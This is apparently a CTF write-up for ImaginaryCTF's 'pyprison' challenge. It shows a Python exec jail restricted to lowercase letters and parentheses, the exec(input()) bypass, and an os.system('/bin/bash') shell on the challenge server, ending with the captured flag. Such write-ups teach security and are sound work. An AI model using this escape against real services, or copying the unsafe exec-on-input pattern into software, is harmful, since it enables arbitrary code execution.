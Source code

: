 ```yaml
---

title: pyprison [IMAGINARY CTF] [MISC]

date: 2022-07-18 11:28:05 +0200

categories: [pwn,htb]

tags: [CTFTIME]

---
```


## pyprison

 > Given file
```python
#!/usr/bin/env python3

while True:
  a = input(">>> ")
  assert all(n in "()abcdefghijklmnopqrstuvwxyz" for n in a)
  print("Execing")
  exec(a)
```

- We're restricted to these constraints.
- We can only use lowercase alphabets and parentheses 
- Here we can do anything with these chars
- Let's get an input and pass it to exec

```c++
➜  misc python3 pyprison.py
>>> exec(input())
Execing
print('Meaw Meaw')
Meaw Meaw
```
- Here you can see it's executed our input
- Now let's try to get a shell

> in remote server

```c++
➜  misc nc pyprison.chal.imaginaryctf.org 1337
== proof-of-work: disabled ==
>>> exec(input())
import os; os.system('/bin/bash')
whoami
user
id
uid=1000(user) gid=1000(user) groups=1000(user)
```
- Now read the flag

```c++
cat flag.txt
ictf{pyprison_more_like_python_as_a_service_12b19a09}
```

flag: `ictf{pyprison_more_like_python_as_a_service_12b19a09}`

